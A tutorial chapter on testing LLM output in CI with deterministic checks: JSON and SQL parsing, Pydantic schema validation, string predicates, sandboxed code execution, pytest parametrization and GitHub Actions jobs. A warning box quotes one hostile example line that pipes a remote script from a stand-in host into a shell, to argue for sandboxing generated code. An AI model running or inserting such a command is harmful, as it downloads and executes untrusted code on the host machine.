

# Assertions and unit tests for LLM output

You have a 50-example eval set from the [previous chapter](./02-your-first-eval-set.md). The obvious next move is to spin up an LLM-as-judge pipeline and have GPT-5 grade every output on helpfulness, accuracy, and tone. Don't.

Hamel Husain and Shreya Shankar, who've taught LLM evals to over 2,000 engineers from OpenAI, Google, Meta, and Microsoft, put the rule plainly in their January 2026 FAQ: "Favor assertions or other deterministic checks over LLM-as-judge evaluators" in CI, because "CI tests are run frequently and the cost of each test has to be carefully considered."[^1] A judge call costs a few cents and runs in two seconds. Multiply by 50 examples, three retries, and ten commits a day, and you've built a CI pipeline that takes ten minutes and burns $50 before a human reviews the PR. Worse, judges are themselves probabilistic; they'll flake on a clean output and pass a broken one, and now you're debugging the test instead of the code.

The fix is to write the dumbest, fastest checks that can possibly catch a regression, and only escalate when those run out. That's what this chapter is.

## The assertion pyramid

Four families of deterministic check sit between you and a regression. Run them in this order, on every commit:


*The assertion pyramid. Each tier costs more and catches a different class of regression. LLM-as-judge sits above the pyramid; you escalate to it only when no deterministic check below can express the property you care about.*

The base tiers are nearly free. A `json.loads` call returns in microseconds; a Pydantic validation in low milliseconds; a regex in microseconds; a sandboxed `subprocess.run` in a second or two. The whole stack runs in well under a minute against a 50-example eval set, with no API key required if you're testing against frozen output fixtures.

## Tier 1: does it parse at all?

Before you check what the output says, check that you can read it. The single most common production prompt regression is the model deciding to wrap your JSON in a friendly preamble: `"Here's the data you asked for: {...}"`. `json.loads` raises, downstream code dies, and the eval was never wired to catch it.

The choice is between two assertions, and getting it wrong is one of the easier mistakes:

- `is_json(output)`: the *entire* output parses as JSON. Use this when your prompt explicitly says "return only JSON, no other text". A failure here is a useful signal that the model has started chatting again.
- `contains_json(output)`: a JSON object exists *somewhere* in the output. Use this when prose wrapping is acceptable, like a `<thinking>` preamble before the structured answer.

Pick the one that matches your prompt's contract. Mixing them up means either flaky failures on correct outputs (`is_json` against a model that adds prose) or silently missed regressions (`contains_json` when you wanted strict format compliance).[^2]

The same logic applies to SQL with `sqlglot`, which parses without a database connection:

```python
import json
import re
import sqlglot

def assert_is_json(output: str) -> dict:
    try:
        return json.loads(output)
    except json.JSONDecodeError as exc:
        raise AssertionError(f"Output is not valid JSON: {exc}") from exc

def assert_contains_json(output: str) -> dict:
    match = re.search(r"\{[\s\S]*\}", output)
    assert match, "No JSON object found in output"
    return json.loads(match.group(0))

def assert_sql_parses(sql: str, dialect: str = "postgres") -> None:
    try:
        sqlglot.parse_one(sql, dialect=dialect)
    except sqlglot.errors.ParseError as exc:
        raise AssertionError(f"SQL parse error: {exc}") from exc
```

These three functions catch the bulk of "the model went off the rails" regressions and run in the time it takes the test runner to print the dot.

## Tier 2: does it match the shape your code expects?

Valid JSON is necessary, not sufficient. `{"reuslt": "Paris"}` parses cleanly and breaks `output["result"]` two lines later. The fix is the same Pydantic model you wrote in [structured outputs](../part-2-working-with-model-apis/02-structured-outputs.md), reused as an assertion:

```python
from pydantic import BaseModel, ValidationError
from typing import Optional

class CapitalAnswer(BaseModel):
    country: str
    capital: str
    confidence: float
    notes: Optional[str] = None

def assert_matches_schema(data: dict) -> CapitalAnswer:
    try:
        return CapitalAnswer(**data)
    except ValidationError as exc:
        raise AssertionError(f"Schema mismatch:\n{exc}") from exc
```

A test failure here tells you exactly which field is wrong, what type it had, and what the model produced, all in the Pydantic error message. That specificity is the whole reason to prefer Pydantic over a hand-rolled `assert "country" in data and isinstance(data["country"], str)` ladder.

You should run this check even when you've enabled provider Structured Outputs (`strict: true`). Three things still slip through the grammar guarantee:

- **Refusals.** OpenAI's safety system fires and `message.parsed` comes back `None`; Anthropic returns plain text instead of the structured response. The schema check catches this loudly.
- **Truncation.** When the response hits `max_tokens` mid-object, the API returns whatever JSON fragment it had. That fragment may not validate.
- **Cross-provider portability.** If you ever swap providers, only OpenAI, Anthropic, and Gemini support strict mode at all, and each enforces a different schema subset. Client-side validation is the portable contract.[^3][^4]

For schemas that aren't worth a Pydantic class (one-off ad hoc shapes, dynamically generated schemas from a config file), `jsonschema.validate(data, schema)` does the same job against a raw JSON Schema dict.

## Tier 3: does it say the right thing (or never say the wrong thing)?

The third tier is string predicates: `contains`, `not_contains`, `regex`, and friends. These catch a different class of regression than schema, the *content* of a field, not its shape. Three places they earn their keep:

- **Required signal words.** A classifier output must contain `"APPROVED"` or `"DENIED"`. A summary must contain the date that appeared in the input. A medical bot's response must contain the disclaimer string.
- **Forbidden strings.** The output must never name a competitor, never include a customer's PII, never start with `"I'm sorry, I can't help"` (the refusal phrase that quietly tanks your conversion rate).
- **Format markers.** A markdown report must start with `"# "`. An email reply must end with the signature template. A date field must match `\d{4}-\d{2}-\d{2}`.

```python
import re

def assert_contains(output: str, needle: str) -> None:
    assert needle in output, f"Expected {needle!r} in output, got: {output[:200]!r}"

def assert_not_contains(output: str, needle: str) -> None:
    assert needle not in output, f"Forbidden {needle!r} appeared in output"

def assert_regex(output: str, pattern: str) -> None:
    assert re.search(pattern, output), f"Pattern {pattern!r} did not match output"
```

The trap with string predicates is over-specification. `assert "Paris" in output` looks like it tests whether the model returned the right capital. It doesn't. It tests whether the model returned a string that *includes* the substring "Paris". The output `"Lyon, not Paris"` passes, and so does `"I don't know, but it's not Paris"`. For classification or extraction tasks with a small known answer space, prefer `equals` on the extracted field after schema validation, or pair `contains` with a `not_contains` exclusion of the most plausible wrong answers.[^1]

Save `regex` for outputs with a genuinely fixed format: dates, currency amounts, ISBNs, the `"REF-\d{6}"` ticket numbers your prompt is supposed to emit. Don't reach for it to validate prose; you'll spend more time maintaining the regex than the prompt.

## Tier 4: does it actually run?

When the LLM produces code or SQL, the only honest check is to run it. A SQL parser confirms syntax; a Python AST confirms it would compile. Neither tells you whether the query returns the right rows or whether the function handles the edge case the prompt asked for. Execution does.

The minimal pattern in pytest, no Docker required for code you trust the source of:

```python
import subprocess
import sys

def assert_code_runs(code: str, expected_stdout: str = "", timeout: int = 5) -> str:
    result = subprocess.run(
        [sys.executable, "-c", code],
        capture_output=True, text=True, timeout=timeout,
    )
    assert result.returncode == 0, (
        f"Code exited {result.returncode}\nstderr:\n{result.stderr}"
    )
    if expected_stdout:
        assert result.stdout.strip() == expected_stdout.strip(), (
            f"stdout mismatch.\nExpected: {expected_stdout!r}\nGot: {result.stdout!r}"
        )
    return result.stdout
```

The `timeout=5` argument is non-negotiable. LLMs generate infinite loops on edge cases, and a CI runner with no timeout will sit there until GitHub Actions kills it at the six-hour mark.[^5]

> [!WARNING]
> Never run LLM-generated code from untrusted prompts in your CI runner without a sandbox. A user-supplied prompt that produces `import os; os.system("curl evil.sh | sh")` will run that command on your build machine. For trusted internal prompts, `subprocess.run` with a timeout is fine. For anything user-facing, use Docker isolation: `epicbox` with `python:3.9-alpine`, `cputime: 1`, `memory: 64` MB.[^5]

For SQL, the upgrade from Tier 1's parse-only check is execution against a fixture database. Spin up SQLite in-memory, load a small known dataset, run the generated query, and assert the result rows match expectations:

```python
import sqlite3

def assert_sql_returns(sql: str, fixture_rows: list[tuple], expected: list[tuple]) -> None:
    conn = sqlite3.connect(":memory:")
    conn.execute("CREATE TABLE users (id INT, name TEXT, age INT)")
    conn.executemany("INSERT INTO users VALUES (?, ?, ?)", fixture_rows)
    actual = conn.execute(sql).fetchall()
    assert actual == expected, f"SQL returned {actual}, expected {expected}"
```

Parse-only checks miss the regression where the model writes valid SQL with the wrong `WHERE` clause. Execution catches it. The cost is maintaining fixtures, which is the right cost to pay for a text-to-SQL prompt where wrong rows are the failure mode that matters.

## Wiring it all into pytest

The eval set you built last chapter is a list of `{input, expected}` dicts. `@pytest.mark.parametrize` turns it into one test row per example, with a clear pass/fail and a focused failure message:

```python
import json
import pytest
from myapp.prompts import call_capital_extractor

GOLDEN = json.loads(open("evals/capitals.json").read())

@pytest.mark.parametrize("case", GOLDEN, ids=lambda c: c["id"])
def test_capital_extractor(case):
    output = call_capital_extractor(case["input"])
    data = assert_is_json(output)
    answer = assert_matches_schema(data)
    assert answer.capital == case["expected"]["capital"]
    assert_not_contains(output, "I cannot")
```

A failure prints exactly which example broke (`test_capital_extractor[case-37]`), which assertion fired, and the model's actual output, which is everything you need to either fix the prompt or add the example to the eval set as a new edge case.

You'll want two CI jobs, not one:

- **Fast job (every commit, every PR).** Runs against a frozen fixture file of pre-collected outputs (`evals/outputs/2026-06-12.jsonl`). No API key, no live LLM call, no flakiness. Finishes in under 60 seconds. This is what blocks merges.
- **Slow job (nightly, or on merge to main).** Re-runs the prompts against the actual model, refreshes the fixture, and runs the same assertions plus any LLM-as-judge checks you've graduated to. Catches drift from model snapshot updates and provider behavior changes. Failures here open an issue; they don't block the PR that triggered them.[^1]

The fast job is what makes the eval suite a habit. If running the tests requires an API key, costs money, and takes five minutes, engineers will skip them locally and the CI run becomes the only signal. If they run instantly with no setup, every commit triggers them and regressions surface within seconds of being introduced.

## The GitHub Actions skeleton

The fast job is plain `pytest` against the fixture; it needs no secrets:

```yaml
# .github/workflows/llm-eval.yml
name: LLM Eval (fast)
on: [push, pull_request]
jobs:
  fast:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-python@v5
        with: { python-version: "3.12" }
      - run: pip install -r requirements.txt
      - run: pytest tests/llm/ -v --tb=short
```

The slow job adds a step that calls the live LLM to refresh the fixture, gated on a schedule or a manual trigger:

```yaml
  slow:
    if: github.event_name == 'schedule' || github.event_name == 'workflow_dispatch'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-python@v5
        with: { python-version: "3.12" }
      - run: pip install -r requirements.txt
      - run: python scripts/refresh_fixture.py
        env: { OPENAI_API_KEY: ${{ secrets.OPENAI_API_KEY }} }
      - run: pytest tests/llm/ -v
```

That's the whole CI story for a Part 4 project. No DeepEval, no promptfoo, no eval platform; just pytest, Pydantic, and the assertion helpers above. You can graduate to a hosted eval platform once you've outgrown plain pytest, but most teams never do.

## Where deterministic checks run out

The pyramid catches regressions you can express as "the output must (not) contain X" or "must (not) parse as Y". It can't catch the categories where the answer is grammatically perfect, schema-valid, contains every required signal word, and still wrong:

- The summary is accurate but misses the most important point.
- The tone is correct but condescending.
- The code runs but uses an O(n²) algorithm where the prompt asked for O(n log n).
- The translation is fluent but loses the original's meaning.

Those are the failure modes [LLM-as-judge](../part-8-evaluation-and-observability/01-llm-as-judge.md) was built for. The order matters: deterministic assertions run first, every commit, in seconds. Judge metrics run async, on sampled production traffic, with their own eval set proving the judge agrees with humans. Mix the two in CI and you'll spend Friday afternoons debugging which layer is flaky.

At architecture scale, [the eval and observability pipeline](../../hld/part-9-ai-ml-system-design/05-llm-evaluation-observability.md) covers how these assertion failures surface as production metrics, alert thresholds, and trace sampling.

## References

[^1]: Hamel Husain and Shreya Shankar, "LLM Evals: Everything You Need to Know", hamel.dev, January 15, 2026, https://hamel.dev/blog/posts/evals-faq/
[^2]: promptfoo, "Deterministic Metrics for LLM Output Validation", promptfoo.dev, last updated June 11, 2026, https://promptfoo.dev/docs/configuration/expected-outputs/deterministic
[^3]: OpenAI, "Structured model outputs", OpenAI Platform Docs, accessed June 2026, https://platform.openai.com/docs/guides/structured-outputs
[^4]: Aviad Rozenhek, "How to Fix OpenAI Structured Outputs Breaking Your Pydantic Models", Medium, August 2025, https://medium.com/@aviadr1/how-to-fix-openai-structured-outputs-breaking-your-pydantic-models-bdcd896d43bd
[^5]: promptfoo, "Sandboxed Evaluations of LLM-Generated Code", promptfoo.dev, last updated June 11, 2026, https://www.promptfoo.dev/docs/guides/sandboxed-code-evals/

